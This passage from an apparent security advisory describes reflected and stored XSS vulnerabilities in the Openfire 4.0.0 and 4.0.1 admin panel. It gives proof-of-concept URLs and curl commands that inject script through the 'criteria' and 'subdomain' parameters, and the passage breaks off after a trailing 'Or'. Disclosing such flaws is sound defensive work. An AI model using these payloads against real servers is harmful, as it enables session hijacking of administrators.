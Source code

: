 #### *criteria* variable from */plugins/search/advance-user-search.jsp*

The following GET request exploit the XSS vulnerability:

```
http://OpenFireServerIP:9090/plugins/search/advance-user-search.jsp?search=true&moreOptions=false&criteria=admin%22/%3E%3Cscript%3Ealert%28%27XSS%27%29%3C/script%3E&search=Search
```

The following curl command allows reproducing the attack against the Openfire *plugins/search/advance-user-search.jsp* admin page.

```
curl "http://OpenFireServerIP:9090/plugins/search/advance-user-search.jsp?search=true&moreOptions=false&criteria=admin%22/%3E%3Cscript%3Ealert%28%27XSS%27%29%3C/script%3E&search=Search" --cookie="JSESSIONID=XXX"
```

### Affected versions

* Version 4.0.0 and 4.0.1

## Several stored XSS Vulnerabilities identified in Openfire 4.0.0 and 4.0.1

Some of these vulnerabilities have already been found by hyp3rlinx, but has not been patched since.

**Access Vector**: remote

**Security Risk**: low

**Vulnerability**: CWE-79

**CVSS Base Score**: 5.5

[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O

### Vulnerability Description

Several XSS vulnerabilities have been found on several pages of the administration panel. Stored XSS could lead to session hijacking on admin user.

### Proof of Concept

#### *subdomain* variable from *connection-settings-external-components.jsp*

The following curl command allows reproducing the attack against the Openfire *connection-settings-external-components.jsp* page:

```
curl --data "subdomain=%22%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&secret=toto&componentAllowed=Add+Component" https://OpenFireServerIP:9090/connection-settings-external-components.jsp --cookie="JSESSIONID=XXX"
```

Or


[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O
